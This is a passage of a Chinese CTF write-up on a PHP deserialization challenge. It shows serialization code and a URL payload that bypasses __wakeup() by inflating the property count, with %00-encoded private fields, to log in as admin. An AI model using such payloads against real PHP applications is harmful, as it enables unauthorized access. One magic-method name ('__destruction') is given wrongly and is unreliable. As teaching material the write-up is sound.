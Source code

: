 有一个Name类，里面有两个私有属性，username，password，

我们需要将username=admin，password=100，序列化一下get方式提交

常用的内置方法：
 __ construct()：创建对象时初始化，当一个对象创建时被调用
 __ wakeup() 使用unserialize时触发
 __ sleep() 使用serialize时触发
 __ destruction()：结束时销毁对象，当一个对象销毁时被调用

看[php反序列化](http://t.csdn.cn/dXSFs)

```php
<?php
class Name
{
    private $username = 'admin';
    private $password = '100';

    public function __construct($username, $password)
    {
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin','100');
echo (serialize($a));
?>
```

输出结果：

![image-20230420164157744](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420164157744.png)

在反序列化字符串时，属性个数的值大于实际属性个数时，会**跳过 __wakeup()函数**的执行

在Name和username前面有\0前缀，这与php的序列化方式有关。但在url提交payload的时候使用\0会被当成空白符丢失。因此要讲\0替换成%00。

原来的：

```
O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";s:3:"100";}
```

更改为：

```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}
```

payload：

```
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}
```

![image-20230420164607721](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420164607721.png)

## [ACTF2020 新生赛]BackupFile
